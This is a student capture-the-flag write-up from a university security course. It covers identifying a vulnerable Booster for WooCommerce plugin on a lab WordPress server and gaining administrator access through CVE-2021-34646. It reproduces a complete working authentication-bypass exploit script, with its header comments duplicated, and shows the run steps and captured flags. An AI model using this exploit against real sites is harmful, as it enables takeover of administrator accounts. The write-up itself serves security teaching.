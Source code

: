 # FSI-CTFS: Week #4

**Goal:** Login with an administrator account in a Wordpress server, by exploiting a CVE with a known exploit.

**Targeted address**: [CTF-FSI](http://ctf-fsi.fe.up.pt:5001), only availabe inside FEUP's network.

#### **Identify valuable information by browsing the web application.**

|   Plugin/Framework   |  Version   |  Source Code  |
| :--: | :--: | :--: |
| Wordpress | 5.8.1 | ![](imgs/wp_ver.png)|
| WooCommerce | 5.7.1 | ![](imgs/woo_ver.png)
| Booster for WooCommerce | 5.4.3 | ![](imgs/booster.png) |

#### **Vulnerability Search**

  * **Wordpress 5.8.1** - CVE's affecting this WP version haven't yet been identified nor reported.
  * **WooCommerce 5.7.1** - CVE's affecting this WooCommerce version haven't yet been identified nor reported.
  * **Booster for WooCommerce 5.4.3** - Versions up to, and including, 5.4.3, of the Booster for WooCommerce WordPress plugin are **vulnerable to authentication bypass**.

**Flag #1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}


#### **Search for an available exploit online**

* [Exploit](https://www.exploit-db.com/exploits/50299)

``` python 
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")

```

#### **Exploit the Vulnerability**

 * Pick a user-ID, accessing http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ 
 ![](imgs/admin_id.png)

 * Download the exploit and run it ./exploit.py http://ctf-fsi.fe.up.pt:5001/ 1

  ![](imgs/run_exploit.png)

 * Insert one of the links above in the browser, and you should be logged in as administrator

 ![](imgs/admin.png)

 * Access [WordPress management page](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php)

 * **Capture the flag**

  ![](imgs/ctf.png)

  **Flag #2 Identified ->** flag{ecbdbe236f3bd5b10d67619470285d43}
